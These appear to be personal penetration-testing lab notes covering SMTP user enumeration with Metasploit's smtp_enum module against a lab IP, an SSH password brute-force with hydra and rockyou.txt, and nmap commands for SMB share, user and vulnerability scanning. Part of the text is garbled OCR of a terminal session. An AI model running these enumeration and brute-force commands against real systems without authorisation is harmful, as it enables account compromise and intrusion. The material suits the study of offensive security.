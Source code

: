  

NOTE : we can use wordlist accordlingly 

 
[msf] (Jobs:ø Agents: 0) auxiliary(scanner/smtp/smtp_enum) >> set USER_FILE /usr/share/word1ists/sec1ists/Usernames, top-usernames - shortlist . txt USER_FILE /usr/share/wordlists/seclists/dsernames/top-usernames-shortlist . txt [msf] (Jobs:ø Agents auxiliary(scanner/smtp/smtp_enum) >> options •Module options (auxiliary/ scanner/ smtp/ smtp_enum) : Name RHOSTS RPORT THREADS UNIXONLY USER FILE Current Setting 25 1 true /usr/ share/wordlists/ seclists/U sernames/ top-usernames- shortlis t. txt Required yes yes yes yes yes Description The target host(s), see https : / /docs . metasploit . com/doc s/ using-metasploit/basics/using-metasploit . html The target port (TCP) The number of concurrent threads (max one per host) Skip Microsoft bannered servers when testing unix users The file that contains a list of probable users account s. View the full module info with the info, or info -d command. [msf] (Jobs:ø Agents auxiliary(scanner/smtp/smtp_enum) >> set RHOSTS 10.10.232.94 RHOSTS 10.10.232.94 , [msf] (Jobs: 0 Agents: 0) auxiliary(scanner/smtp/smtp_enum) >> run - 10.10.232.94:25 Banner: 220 polosmtp. home ESMTP Postfix (Ubuntu) 10.10. 232.94: 25 - 10.10.232.94:25 Users found: administrator 10.10. 232.94: 25 - Scanned 1 of 1 hosts (100% complete) 10.10.232.94:25 Auxiliary module execution completed

 

    We have got username : administrator 

 

EXPLOITING SMTP 

 

    Since we have seen that ssh is open in target server or needs to be open. 

    $ : hydra –t 16 –l administrator –P /usr/share/wordlists/rockyou.txt <target_ip> ssh 

    Login into ssh using the username and password. 



 #SMB ENUMERATION

 Docs : https://www.samba.org/samba/docs/current/man-html/smbclient.1.html 

    Server Message Block 

    Network file sharing protocol that allows applications on a computer to read and write files. 

    Request services from server programs in computer network. 

 

Most common ports - 445 ( miscrosoft-ds) and 139 (netbios-ssn) or netbios-ssn both 

    SCAN - nmap -sV -p139,445 <targ_ip> 

    SCAN USING DEFAULT SCRIPTS - nmap -sV -sC -p139,445 <targ_ip> 

    DEFAULT SCRIPTS LOCATE - locate .nse | grep smb 

    SCAN WITH COMMON VULNERABILITIES - nmap -sV -p139,445 --script=vuln* <targ_ip> 

    CHECK SHARES - nmap -sV - -p139,445 --script=smb-enum-shares <targ_ip> 

    ALSO SEARCH FOR USERS - nmap -sV -p139,445 --script=smb-enum-users <targ_ip> 

    TO FIND THE NETBIOS DOMAIN NAME - nbtscan <targ_ip> 
